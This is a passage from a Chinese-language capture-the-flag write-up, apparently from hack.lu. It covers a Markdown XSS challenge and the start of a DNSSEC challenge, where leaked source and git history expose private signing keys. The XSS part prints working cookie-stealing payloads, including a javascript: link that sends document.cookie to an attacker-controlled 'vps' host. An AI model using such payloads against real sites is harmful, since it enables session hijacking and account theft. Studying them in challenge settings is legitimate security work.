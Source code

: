 ```Html

```

一开始fuzz出了data的payload，但是DATA协议是无法获取cookie信息的，所以无法获得admind的cookie信息。

后面，测出如下payload：

```html
![a](javascript:prompt(document.cookie))\
<javascript:window.open('http://vps/?id='+document.cookie)>'
=>
<p><a href="javascript:window.open('http://vps:7890/?id='+document.cookie)">javascript:window.open('http://vps:7890/?id='+document.cookie)</a>'</p>
```

绕过，获得cookie。

![markdownxss_flag](https://momomoxiaoxi.com/img/post/hacklu/markdownxss_flag.png)



## DnSoSecure

查看网页源码，有一个源码泄漏点。

```Html
<!-- <a href="/static/source.zip">Source</a> -->
```

下载下来，获得一个git库，通过回退版本，可以得到DNSSEC的KSK和ZSK。

```bash
.
├── __init__.py
├── forms.py
├── keys
│   ├── Ksecret+007+11537.key
│   ├── Ksecret+007+11537.private
│   ├── Ksecret+007+26883.key
│   └── Ksecret+007+26883.private
├── keys.zip
├── static
│   ├── css
│   │   ├── custom.css
│   │   ├── normalize.css
│   │   ├── skeleton.css
│   │   └── test.css
│   └── img
│       └── background.jpg
├── templates
│   ├── base.html
│   └── index.html
├── utils.py
└── views.py
```
